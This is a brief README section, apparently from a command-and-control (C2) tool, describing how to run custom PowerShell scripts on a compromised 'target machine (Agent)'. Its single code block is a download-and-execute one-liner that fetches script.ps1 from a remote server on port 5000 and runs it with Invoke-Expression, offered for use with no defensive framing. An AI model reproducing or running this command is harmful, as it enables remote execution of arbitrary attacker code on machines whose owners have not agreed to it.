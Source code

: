 # C2
## Custom powershell script usage:

To run custom powershell scripts on target machine (Agent), you can execute this command:
```powershell
Invoke-Expression ( [System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://[IP]:5000/static/uploads/script.ps1").Content) )
```